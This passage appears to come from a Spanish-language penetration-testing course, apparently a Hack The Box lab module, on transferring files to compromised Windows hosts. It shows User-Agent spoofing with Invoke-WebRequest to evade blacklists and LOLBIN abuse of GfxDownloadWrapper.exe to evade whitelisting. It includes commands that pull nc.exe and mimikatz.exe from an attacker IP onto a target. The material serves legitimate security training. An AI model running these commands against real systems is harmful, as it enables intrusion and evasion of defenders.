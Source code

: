 ## Cambiando el User Agent

Si los administradores o defensores diligentes han puesto en la lista negra alguno de estos User Agents, [Invoke-WebRequest](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.utility/invoke-webrequest?view=powershell-7.1) contiene un parámetro UserAgent, que permite cambiar el agente de usuario predeterminado a uno que emule Internet Explorer, Firefox, Chrome, Opera o Safari. Por ejemplo, si Chrome se usa internamente, configurar este User Agent puede hacer que la solicitud parezca legítima.

### Listado de User Agents

```r
PS C:\htb>[Microsoft.PowerShell.Commands.PSUserAgent].GetProperties() | Select-Object Name,@{label="User Agent";Expression={[Microsoft.PowerShell.Commands.PSUserAgent]::$($_.Name)}} | fl

Name       : InternetExplorer
User Agent : Mozilla/5.0 (compatible; MSIE 9.0; Windows NT; Windows NT 10.0; en-US)

Name       : FireFox
User Agent : Mozilla/5.0 (Windows NT; Windows NT 10.0; en-US) Gecko/20100401 Firefox/4.0

Name       : Chrome
User Agent : Mozilla/5.0 (Windows NT; Windows NT 10.0; en-US) AppleWebKit/534.6 (KHTML, like Gecko) Chrome/7.0.500.0
             Safari/534.6

Name       : Opera
User Agent : Opera/9.70 (Windows NT; Windows NT 10.0; en-US) Presto/2.2.1

Name       : Safari
User Agent : Mozilla/5.0 (Windows NT; Windows NT 10.0; en-US) AppleWebKit/533.16 (KHTML, like Gecko) Version/5.0
             Safari/533.16
```

Invocando Invoke-WebRequest para descargar nc.exe usando un User Agent de Chrome:

### Solicitud con User Agent de Chrome

```r
PS C:\htb> $UserAgent = [Microsoft.PowerShell.Commands.PSUserAgent]::Chrome
PS C:\htb> Invoke-WebRequest http://10.10.10.32/nc.exe -UserAgent $UserAgent -OutFile "C:\Users\Public\nc.exe"
```

```r
nc -lvnp 80

listening on [any] 80 ...
connect to [10.10.10.32] from (UNKNOWN) [10.10.10.132] 51313
GET /nc.exe HTTP/1.1
User-Agent: Mozilla/5.0 (Windows NT; Windows NT 10.0; en-US) AppleWebKit/534.6
(KHTML, Like Gecko) Chrome/7.0.500.0 Safari/534.6
Host: 10.10.10.32
Connection: Keep-Alive
```

---

## LOLBAS / GTFOBins

La lista blanca de aplicaciones puede evitar que uses PowerShell o Netcat, y el registro de la línea de comandos puede alertar a los defensores sobre tu presencia. En este caso, una opción puede ser usar un "LOLBIN" (living off the land binary), también conocido como "binarios de confianza desplazada". Un ejemplo de LOLBIN es el controlador de gráficos Intel para Windows 10 (GfxDownloadWrapper.exe), instalado en algunos sistemas y que contiene funcionalidad para descargar archivos de configuración periódicamente. Esta funcionalidad de descarga se puede invocar de la siguiente manera:

### Transferencia de Archivos con GfxDownloadWrapper.exe

```r
PS C:\htb> GfxDownloadWrapper.exe "http://10.10.10.132/mimikatz.exe" "C:\Temp\nc.exe"
```

Dicho binario podría estar permitido para ejecutarse por la lista blanca de aplicaciones y ser excluido de las alertas. Otros binarios más comúnmente disponibles también están disponibles, y vale la pena revisar el proyecto [LOLBAS](https://lolbas-project.github.io/) para encontrar un binario adecuado de "file download" que exista en tu entorno. El equivalente en Linux es el proyecto [GTFOBins](https://gtfobins.github.io/) y definitivamente también vale la pena revisarlo. Al momento de escribir, el proyecto GTFOBins proporciona información útil sobre casi 40 binarios comúnmente instalados que se pueden usar para realizar transferencias de archivos.

---

## Reflexiones Finales

Como hemos visto en este módulo, hay muchas formas de transferir archivos hacia y desde nuestro host de ataque entre sistemas Windows y Linux. Vale la pena practicar tantas de estas formas como sea posible a lo largo de los módulos en el Penetration Tester path. ¿Tienes una web shell en un objetivo? Prueba descargar un archivo al objetivo para realizar una enumeración adicional usando Certutil. ¿Necesitas descargar un archivo del objetivo? Prueba con un servidor SMB de Impacket o un servidor web Python con capacidades de carga. Vuelve a este módulo periódicamente y esfuérzate por usar todos los métodos enseñados de alguna manera. Además, tómate un tiempo cada vez que trabajes en un objetivo o laboratorio para buscar un LOLBin o GTFOBin que no hayas utilizado antes para lograr tus objetivos de transferencia de archivos.